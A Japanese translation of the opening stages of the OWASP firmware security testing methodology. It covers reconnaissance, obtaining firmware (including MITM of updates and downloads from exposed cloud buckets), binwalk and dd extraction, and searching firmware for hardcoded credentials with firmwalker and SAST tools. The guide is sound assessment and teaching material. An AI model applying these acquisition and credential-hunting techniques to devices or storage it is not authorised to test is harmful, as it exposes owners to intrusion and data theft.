# OWASP ファームウェアセキュリティテスト手法



ネットワークに接続されているかスタンドアロンであるかにかかわらず、ファームウェアは組み込みデバイス制御の中核となります。そのため、ファームウェアがどのように操作されて不正な機能を実行し、サポートするエコシステムのセキュリティを無効にする可能性があるかを理解することが重要です。ファームウェアのセキュリティテストとリバースエンジニアリングの実行を開始するには、今後の評価に着手する際の指針として以下の手法を使用します。この手法はセキュリティ研究者、ソフトウェア開発者、コンサルタント、愛好家、および情報セキュリティ専門家がファームウェアセキュリティ評価を実施できるように仕立てた九つのステージで構成されています。

| **ステージ** | **説明** |
| :--- | :--- |
| 1. 情報収集と偵察 | ターゲットデバイスのファームウェアに関するすべての関連技術およびドキュメントの詳細を取得します |
| 2. ファームウェアの入手 | リストされている提案手法の一つ以上を使用してファームウェアを取得します |
| 3. ファームウェアの解析 | ターゲットファームウェアの特性を調べます |
| 4. ファイルシステムの抽出 | ターゲットファームウェアからファイルシステムコンテンツを切り分けます |
| 5. ファイルシステムコンテンツの解析 | 抽出したファイルシステム構成ファイルとバイナリの脆弱性を静的に解析します |
| 6. ファームウェアのエミュレート | ファームウェアファイルとコンポーネントをエミュレートします |
| 7. 動的解析 | ファームウェアおよびアプリケーションインタフェースに対して動的セキュリティテストを実行します |
| 8. ランタイム解析 | デバイス実行時にコンパイル済みバイナリを解析します |
| 9. バイナリエクスプロイト | 前のステージで発見した特定済みの脆弱性をエクスプロイトして、ルートやコード実行を果たします |

> **注:** このファームウェア固有の方法論は [OWASP IoT セキュリティテストガイド \(ISTG\)](https://owasp.org/owasp-istg/) を補完するものであり、ハードウェアインタフェース、無線プロトコル、ネットワークサービス、ユーザーインタフェースに対する追加のテストケースを提供します。要件主導型のセキュリティ評価には、[OWASP IoT セキュリティ検証標準 \(ISVS\)](https://github.com/OWASP/IoT-Security-Verification-Standard-ISVS) が実装すべきセキュリティコントロールの内容を定義し、FSTM がファームウェアコンポーネントのテスト方法を定義します。包括的な IoT デバイスのセキュリティ評価には ISVS, ISTG, FSTM を併用してください。

次のセクションでは各ステージの詳細と適用可能なサポート例を示します。 [OWASP Internet of Things Project](https://owasp.org/www-project-internet-of-things/) ページと GitHub リポジトリを訪問して、最新の手法のアップデートと今後のプロジェクトリリースを検討します。

ファームウェア \(ハードウェアインタフェース、無線プロトコル、ネットワークサービス、ユーザーインタフェース\) を超えた IoT デバイスの攻撃対象領域全体をカバーする補完的なアプローチについては、[OWASP IoT セキュリティテストガイド \(ISTG\)](https://owasp.org/owasp-istg/) を参照してください。これは包括的なテストケースカタログを備えたコンポーネントベースのテストフレームワークを提供しています。包括的な IoT デバイスのセキュリティ評価には、ISTG を FSTM のファームウェア固有の方法論と併用します。

このドキュメント全体で使用されるファームウェアテストツールを備えた事前構成済み Ubuntu 仮想マシン \(EmbedOS\) は次の [リンク](https://tinyurl.com/EmbedOS-2020) からダウンロードできます。 EmbedOS のツールに関する詳細は GitHub の次のリポジトリ [https://github.com/scriptingxss/EmbedOS](https://github.com/scriptingxss/EmbedOS) 内にあります。

### **\[ステージ 1\] 情報収集と偵察**

このステージでは、ターゲットに関する全体的な基盤技術構成を理解するために、できる限り多くの情報を収集します。以下のものを収集してみます。

* サポートされている CPU アーキテクチャ
* オペレーティングシステムプラットフォーム
* ブートローダ構成
* ハードウェア回路図
* データシート
* コード行数 \(LoC\) 概算
* ソースコードリポジトリの場所
* サードパーティコンポーネント
* オープンソースライセンス \(例: GPL\)
* 変更ログ
* FCC ID
* 設計およびデータフロー図
* 脅威モデル
* 以前のペネトレーションテストレポート
* バグ追跡チケット \(例: GitHub Issues, GitLab Issues\) およびパブリック脆弱性開示プラットフォーム

上記の情報はセキュリティテスト実地調査の前に質問票や調査票を通じて収集すべきです。社内の製品ライン開発チームを活用して、正確かつ最新のデータを取得するようにします。適用されているセキュリティコントロール、ロードマップアイテム、既知のセキュリティ問題、最も懸念されるリスクを理解します。必要に応じて、質問の特定機能に関する詳細調査フォローアップをスケジュールします。評価は協調的な環境で行うことが最も効果的です。

可能であれば、オープンソースインテリジェンス \(OSINT\) ツールおよび技法を使用してデータを取得します。オープンソースソフトウェアを使用している場合には、そのリポジトリをダウンロードし、コードベースに対して手動と自動の両方の静的解析を実行します。場合により、オープンソースソフトウェアプロジェクトではオープンソースプロジェクト向けのフリーの静的解析スキャンサービスを使用していることもあります。例えば、以下のスクリーンショットは [Das U-Boot](https://docs.u-boot.org/) のスキャンの静的解析結果を示しています。



図 : U-Boot Static Analysis



図 : U-Boot Static Analysis Results

手元にある情報をもとに、軽度の脅威モデル作業を実施して、アタックサーフェスと危殆化した場合に最も価値のある影響領域をマッピングします。

### **\[ステージ 2\] ファームウェアの入手**

ファームウェアコンテンツのレビューを開始するには、ファームウェアイメージファイルを取得しなければなりません。以下の方法のいくつかを使用してファームウェアコンテンツを取得するようにします。

* 開発チーム、製造元/ベンダー、クライアントから直接
* 製造元提供のウォークスルーを使用してスクラッチからビルド
* ベンダーのサポートサイトから
* バイナリファイル拡張子や Dropbox, Box, Google ドライブなどのファイル共有プラットフォームを対象とした Google Dork 検索
  * フォーラム、ブログにコンテンツをアップロードしたり、問題をトラブルシューティングするために製造元に連絡して送られてきた zip やフラッシュドライブ経由でファームウェアが提供されたりするサイトにコメントした顧客を通じて、ファームウェアイメージに遭遇することはよくあります。
* 更新時の中間者 \(MITM\) デバイス通信
* \*Amazon Web Services \(AWS\) S3 バケットなどの公開されたクラウドプロバイダストレージロケーションからビルドをダウンロード
* ART, JTAG, PICit などを介してハードウェアから直接抽出
* アップデートのサーバーリクエストのためにハードウェアコンポーネント内のシリアル通信を盗聴
* モバイルまたはシックアプリケーション内のハードコードされたエンドポイントを介して
* ブートローダ \(例: U-boot\) からフラッシュストレージに、または tftp 経由でネットワーク上でファームウェアをダンプ
* フラッシュチップ \(例: SPI\) または MCU をボードから取り外してオフライン解析およびデータ抽出 \(最終手段\)
  * フラッシュストレージや MCU に対応したチッププログラマが必要です。

> \*注: 公開されているクラウドプロバイダストレージサービスからデータをダウンロードする場合は、現地の法律および規制に従うようにしてください。

記載されている方法はそれぞれ難易度が異なります。また、完全なリストであると考えてはいけません。プロジェクトの目的とエンゲージメントのルールに従い適切な方法を選択します。可能であれば、ファームウェアのデバッグビルドとリリースビルドの両方をリクエストして、デバッグコードや機能がリリース内でコンパイルされる場合のテストカバレッジユースケースを最大化します。

### **\[ステージ 3\] ファームウェアの解析**

ファームウェアイメージを取得したら、そのファイルの様相を探り、特性を識別します。以下の手順を使用して、ファームウェアファイルタイプ、潜在的なルートファイルシステムメタデータを解析し、コンパイルされたプラットフォームについてさらに理解を深めます。

以下のようなユーティリティを活用します。

```text
file <bin>  
strings  
strings -n5 <bin> 
strings -n16 <bin>#longer than 16
strings -tx <bin> #print offsets in hex 
binwalk <bin>  
hexdump -C -n 512 <bin> > hexdump.out  
hexdump -C <bin> | head # might find signatures in header
fdisk -lu <bin> #lists a drives partition and filesystems if multiple
```

上記の方法ではいずれも有用なデータを得られない場合には、以下の可能性があります。

* バイナリはベアメタルの可能性があります
* バイナリはカスタムファイルシステムを備えたリアルタイムオペレーティングシステム \(RTOS\) プラットフォーム用の可能性があります
* バイナリは暗号化されている可能性があります

バイナリが暗号化されている可能性がある場合は、以下のコマンドで binwalk を使用してエントロピーを確認します。

`$ binwalk -E <bin>`

低エントロピー = 暗号化されている可能性は低い

高エントロピー = 暗号化されている \(または何らかの方法で圧縮されている\) 可能性が高い

> **注:** 2024 年の時点で、Binwalk v3 は Rust で完全に書き直され、以前の Python ベースのバージョンと比較して解析速度が大幅に向上し、誤検出が減少しました。Rust 実装ではメモリの安全性を向上し、大きなファームウェアイメージでのパフォーマンスを向上し、最新の圧縮形式とファイルシステム \(NTFS, APFS\) のサポートを強化しています。コマンド構文は以前のバージョンと互換性があるため、既存のワークフローにそのまま置き換えることができます。インストールはパッケージマネージャ \(Kali Linux, NixOS\) または Rust パッケージマネージャ \(cargo\) から可能です。

別のツールを利用することもできます。 Binvis オンラインおよびスタンドアロンアプリケーションを使用します。

* Binvis
  * [https://code.google.com/archive/p/binvis/](https://code.google.com/archive/p/binvis/)
  * [https://binvis.io/\#/](https://binvis.io/#/)

### **\[ステージ 4\] ファイルシステムの抽出**

このステージではファームウェアの内部を調べ、関連するファイルシステムデータを解析して、可能な限り多くの潜在的なセキュリティ問題の特定を開始します。以下の手順を使用してファームウェアコンテンツを抽出し、次のステージで使用されるコンパイルされていないコードとデバイス構成を確認します。自動抽出と手動抽出の両方の方法を以下に示します。

1. 以下のツールと方法を使用して、ファイルシステムコンテンツを抽出します。

`$ binwalk -ev <bin>`

ファイルは " `_binaryname/filesystemtype/`" に抽出されます。

ファイルシステムタイプ: squashfs, ubifs, romfs, rootfs, jffs2, yaffs2, cramfs, initramfs

> **Binwalk v3 パフォーマンスノート:** Rust ベースの Binwalk v3 は、特に大きなファームウェアイメージ \(>100MB\) の場合、再帰抽出 \(`-e`\) 操作時の速度を大幅に向上します。詳細フラグ \(`-v`\) は詳細な抽出の進行状況を表示します。これは複雑なファームウェアや難読化されたファームウェアでの抽出失敗をデバッグする際に特に役立ちます。

2a. 往々にして、 binwalk にはシグネチャにそのファイルシステムのマジックバイトがないことがあります。このような場合には、binwalk を使用してファイルシステムのオフセットを見つけ、圧縮されたファイルシステムをバイナリから切り出し、以下の手順を使用して、ファイルシステムをその種類に応じて手動で抽出します。

```text
$ binwalk DIR850L_REVB.bin

DECIMAL HEXADECIMAL DESCRIPTION
----------------------------------------------------------------------------- ---

0 0x0 DLOB firmware header, boot partition: """"dev=/dev/mtdblock/1""""
10380 0x288C LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 5213748 bytes
1704052 0x1A0074 PackImg section delimiter tag, little endian size: 32256 bytes; big endian size: 8257536 bytes
1704084 0x1A0094 Squashfs filesystem, little endian, version 4.0, compression:lzma, size: 8256900 bytes, 2688 inodes, blocksize: 131072 bytes, created: 2016-07-12 02:28:41
```

2b. 以下の dd コマンドを実行して Squashfs ファイルシステムを切り出します。

```text
$ dd if=DIR850L_REVB.bin bs=1 skip=1704084 of=dir.squashfs 

8257536+0 records in

8257536+0 records out

8257536 bytes (8.3 MB, 7.9 MiB) copied, 12.5777 s, 657 kB/s
```

あるいは、以下のコマンドを実行することもできます。

`$ dd if=DIR850L_REVB.bin bs=1 skip=$((0x1A0094)) of=dir.squashfs`

2c. squashfs の場合 \(上記の例で使用されたもの\)

`$ unsquashfs dir.squashfs`

ファイルは後ほど "`squashfs-root`" ディレクトリに置かれます。

2d. CPIO アーカイブファイル

`$ cpio -ivd --no-absolute-filenames -F <bin>`

2f. jffs2 ファイルシステムの場合

`$ jefferson rootfsfile.jffs2`

2d. NAND フラッシュでの ubifs ファイルシステムの場合

`$ ubireader_extract_images -u UBI -s <start_offset> <bin>`

`$ ubidump.py <bin>`

### **\[ステージ 5\] ファイルシステムコンテンツの解析**

このステージでは、動的解析およびランタイム解析ステージの糸口を収集します。ターゲットファームウェアが以下 \(網羅してはいません\) を含んでいるかどうかを調べます。

* telnetd などのセキュアではないレガシーネットワークデーモン \(製造元は偽装のためにバイナリの名前を変更することがよくあります\)
* ハードコードされた資格情報 \(ユーザー名、パスワード、API キー、 SSH キー、バックドアの類\)
* ハードコードされた API エンドポイントとバックエンドサーバーの詳細
* エントリポイントして使用できるアップデートサーバー機能
* コンパイルされていないコードを確認し、リモートコード実行用のスクリプトを起動します
* コンパイルされたコードを抽出し、以降のステップのために逆アセンブラでオフライン解析に使用します

ファイルシステムコンテンツおよびコンパイルされていないコードを手動で静的に解析するか、以下を解析する firmwalker などの自動ツールを活用します。

* etc/shadow および etc/passwd
* etc/ssl ディレクトリを一覧表示します
* .pem, .crt などの SSL 関連ファイルを検索します
* 設定ファイルを探します
* スクリプトファイルを探します
* 他の .bin ファイルを探します
* admin, password, remote, AWS keys などのキーワードを探します
* IoT デバイスで使用される一般的なウェブサーバーを探します
* ssh, tftp, dropbear などの一般的なバイナリを探します
* 禁止されている C 関数を探します
* 一般的なコマンドインジェクションの脆弱性のある機能を探します
* URL 、電子メースアドレス、 IP アドレスを探します
* その他

以下のサブセクションではオープンソースの自動ファームウェア解析ツールを紹介します。

#### Firmwalker

~/tools/firmwalker のディレクトリ内で firmwalker を実行し、 firmwalker に抽出したファイルシステムのルートディレクトリの絶対パスを指定します。 firmwalker はルールの解析に "/data/" ディレクトリの情報を使用します。 Aaron Guzman が追加のチェックを加えて修正したカスタムフォークは GitHub の [https://github.com/scriptingxss/firmwalker](https://github.com/scriptingxss/firmwalker) にあります。以下の例は [OWASP の IoTGoat](https://github.com/OWASP/IoTGoat) で使用されている firmwalker の使用法を示しています。追加の脆弱なファームウェアプロジェクトはドキュメントの最後の [脆弱なファームウェア](./) セクションにリストされています。

`$ ./firmwalker.sh /home/embedos/firmware/ _IoTGoat-rpi-2.img.extracted/squashfs-root/`

以下の firmwalker の出力を参照します。



firmwalker.txt と firmwalkerappsec.txt の二つのファイルが生成されます。これらの出力ファイルは手動で確認する必要があります。

#### 抽出したファームウェアコードの静的解析

ファームウェアソースコードまたは逆コンパイルしたバイナリが利用可能な場合、実行時解析の前に静的アプリケーションセキュリティテスト \(SAST\) を実施し、C/C++ コードのセキュリティ脆弱性を特定します。SAST の取り組みは、組み込みファームウェアに依然として蔓延している二つの重大な脆弱性クラスに焦点を当てます。

1. **メモリ破損の脆弱性** - 安全でない C/C++ 関数によって引き起こされるバッファオーバーフロー、解放後使用 (use-after-free)、整数オーバーフロー
2. **OS コマンドインジェクション** - ユーザー入力がシェルコマンドまたはシステムコールに安全でない方法で渡される脆弱性

> **重大な調査結果:** 2025 年の時点で、これらの脆弱性クラスはコンシューマ IoT から企業インフラストラクチャに至るデバイスに悪影響を及ぼし続けています。最近の例としては、**CVE-2024-41592** \(DrayTek ルーター - GetCGI\(\) のバッファオーバーフロー, CVSS 10.0\)、**CVE-2024-21833** \(TP-Link ルーター - サニタイズされていない国パラメータによる OS コマンドインジェクション\)、**CVE-2024-12856** \(Four-Faith 産業用ルーター - adj_time_year パラメータでのコマンドインジェクション\)、**CVE-2025-20334** \(Cisco IOS XE エンタープライズスイッチ/ルーター - HTTP API コマンドインジェクション, CVSS 8.8\) などがあります。影響はホームネットワークから重要なインフラストラクチャにまで及びます。**CVE-2023-20198** \(Cisco IOS XE Web UI, CVSS 10.0\) は 2023 年 10 月に世界中で 4 万～ 5 万台の企業ネットワークデバイスの侵害につながりました。すべての例にわたる根本原因は、最新の言語保護が組み込まれていない、メモリセーフではない C/C++ で記述されたファームウェアです。

**高リスクコードの特定:**

リモートコード実行 \(RCE\) 脆弱性を露呈する可能性が高い以下のコードパスに対して SAST 解析を優先的に実施します。

* **Web サーバーバイナリと CGI スクリプト** - 多くの場合 `/usr/sbin/httpd`, `/www/cgi-bin/`, `/htdocs/`, `/web/` にあります
* **API ハンドラとリクエストパーサー** - HTTP パラメータ、JSON/XML 解析、form データを処理する関数を検索します
* **システム設定ユーティリティ** - デバイス設定を変更するコード。多くの場合、ユーザー入力を受け入れ、システムコマンドを実行します
* **Network service daemons** - 外部リクエストを処理する UPnP, SOAP, REST API エンドポイント

> **実用的な助言:** `grep -r "system\|popen\|exec" <extracted_firmware>` を使用して、オペレーティングシステムにシェルアウトするコードを素早く特定します。次に、ユーザーによる入力がこれらの危険な関数に入る場所を遡って追跡します。Web サーバーのコードは、デバイス全体の侵害につながる可能性のある、リモートから悪用可能なコマンドインジェクション脆弱性を発見するのに、特に価値があります。

以下のオープンソースツールは組み込みファームウェアの解析に特に役立ちます。

**軽量スキャナ:**

* **Cppcheck** - 組み込み C/C++ プロジェクト向けに設計された静的アナライザ
  * バッファオーバーフロー、ヌルポインタデリファレンス、メモリリークを検出
  * 安全性重視の組み込みシステムに不可欠な MISRA および CERT コンプライアンス標準をサポート
  * 組み込み開発でよくある非標準構文に対応
  * バグ検出を重視した低い誤検知率
  * インストール方法: `apt install cppcheck` または [cppcheck.sourceforge.io](https://cppcheck.sourceforge.io/) からダウンロード
  * 使用方法: `cppcheck --enable=all --addon=cert --addon=misra <source_dir>`

* **Flawfinder** - C/C++ 向けのセキュリティ重視の脆弱性スキャナ
  * **主なユースケース:** バッファオーバーフローやコマンドインジェクションを可能にする危険な関数呼び出しを特定
  * 安全でない関数にフラグ付け: strcpy, strcat, sprintf, gets, scanf, system, popen, exec ファミリー
  * リスクレベル \(0 ～ 5 のスケール\) で検出結果を優先順位付け
  * コンパイル不要の高速な語彙スキャン
  * 脆弱性コードコンテキストを含む HTML 出力
  * インストール方法: `pip install flawfinder`
  * 使用方法: `flawfinder --html --context --minlevel=4 <source_dir> > report.html`
  * **最適な用途:** ウェブサーバーコードと CGI バイナリの RCE ベクトルに対する迅速なトリアージ

**コンパイラ統合ツール:**

* **Clang-Tidy** - LLVM ベースのリンターおよび静的アナライザ
  * メモリ破損、バッファオーバーフロー、セキュリティ問題を検出
  * 一般的な脆弱性に対する自動修正を提供
  * CMake およびモダンなビルドシステムとの統合
  * インストール方法: `apt install clang-tidy`
  * 使用方法: `clang-tidy <source_files> -- -I<include_paths>`

**高度なセマンティック解析:**

* **CodeQL** - クエリベースのコード解析エンジン \(GitHub\)
  * C/C++ リポジトリ向けのビルドフリースキャン \(2025 年パブリックプレビュー\)
  * 安全でないデータの伝播を追跡するためのデータフロー解析
  * オープンソースファームウェアプロジェクトでフリー
  * U-Boot ファームウェアで 13 件の CVE 脆弱性の特定に成功
  * インストール方法: [github.com/github/codeql-cli-binaries](https://github.com/github/codeql-cli-binaries) からダウンロード
  * 使用方法: データベースを作成し、ファームウェアコードに対してセキュリティクエリを実行

* **Semgrep** - 高速なパターンベースのセキュリティスキャナ
  * ビルド可能なプロジェクトを必要とせずに C/C++ ソースをスキャン
  * 組み込み/POSIX の脆弱性に焦点を当てたコミュニティルールセット
  * OSS 版が利用可能 \(C/C++ サポートは実験的だが機能的\)
  * インストール方法: `pip install semgrep`
  * 使用方法: `semgrep --config=auto <source_dir>`

**効果を最大化するための解析ワークフロー:**

各ツールには独自の解析機能と検出パターンがあるため、複数の SAST ツールを組み合わせて使用します。メモリ破損やコマンドインジェクション脆弱性をターゲットとする組み込みファームウェアには、以下のワークフローに従います。

1. **Flawfinder での迅速なトリアージ** - ウェブサーバーのディレクトリと CGI コードに対して危険な関数  \(strcpy, system, popen\) についてスキャンします。
2. **Cppcheck での詳細な解析** - フラグ付けしたファイルに対して完全な CERT/MISRA チェックを実行し、バッファオーバーフローのリスクを確認します。
3. **Clang-Tidy でのバリデーション** - メモリの安全性に関する問題を検証し、追加の CWE パターンをチェックします。
4. **CodeQL または Semgrep での高度な脅威モデリング** - ウェブパラメータから安全でないシンクへのデータフローを追跡します。

**対象コードパス (優先度順):**

1. `/www/cgi-bin/*` および `/htdocs/*` - HTTP リクエストを処理する Web インタフェース
2. `system()`, `popen()`, `exec*()` を含むファイル - コマンド実行コード
3. `strcpy()`, `sprintf()`, `gets()` を有する関数 - バッファオーバーフロー候補
4. JSON/XML パーサーと入力バリデータ - データデシリアライゼーションの脆弱性

ソースコードを利用可能なファームウェアでは、動的テストステージに進む前に、これらのツールを解析ワークフローに統合します。ウェブサーバーコードでのコマンドインジェクションの SAST 検出結果は、ステージ 7 の動的解析とエクスプロイトの試みにとって価値の高いターゲットとなります。これらのツールは FACT や EMBA などのバイナリ解析フレームワークを補完し、ターゲットを絞ったリバースエンジニアリングの取り組みを導くソースレベルの脆弱性検出を提供します。

#### ファームウェア解析比較ツールキット \(Firmware Analysis Comparison Toolkit, FACT\)

幸いなことに、複数のオープンソースの自動ファームウェア解析ツールが利用可能です。 FACT の機能は以下のとおりです。

* オペレーティングシステム、 CPU アーキテクチャ、サードパーティコンポーネントなどのソフトウェアコンポーネントと関連するバージョン情報の識別
* イメージからファームウェアファイルシステムの抽出
* 証明書と秘密鍵の検出
* Common Weakness Enumeration \(CWE\) にマッピングされた脆弱な実装の検出
* フィードおよびシグネチャベースの脆弱性の検出
* 基本的な静的ビヘイビア解析
* ファームウェアバージョンおよびファイルの比較 \(diff\)
* QEMU を使用したファイルシステムバイナリのユーザーモードエミュレーション
* NX, DEP, ASLR, スタックカナリア, RELRO, FORTIFY\_SOURCE などのバイナリ緩和策の検出
* REST API
* その他

  以下はコンパニオン [事前構成済み仮想マシン](https://tinyurl.com/EmbedOS-2019) 内でファームウェア解析比較ツールキットを使用するための説明です。

_助言: 16 コア 64GB RAM を搭載したコンピュータで FACT を実行することをお勧めします。ツールは 4 コア 8GB RAM でも実行できますがかなり遅いペースになります。スキャン出力結果は仮想マシンに割り当てられたリソースにより異なります。リソースが多いほど、 FACT はスキャンサブミッションをより速く完了します。_

```text
$ cd ~/tools/FACT_core/
$ sudo ./start_all_installed_fact_components
```

